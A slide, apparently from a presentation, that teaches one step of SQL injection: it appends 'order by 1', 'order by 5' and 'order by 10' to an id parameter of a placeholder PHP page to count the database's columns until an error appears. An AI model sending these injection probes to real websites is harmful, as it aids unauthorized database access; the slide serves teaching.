

# Find Number of Columns
http://www.examplesite.com/index.php?id=5 order by 1—
And we will keep increasing the number until we get an error.
http://www.examplesite.com/index.php?id=5 order by 5—
http://www.examplesite.com/index.php?id=5 order by 10—
Lets say there is 10 columns in the database.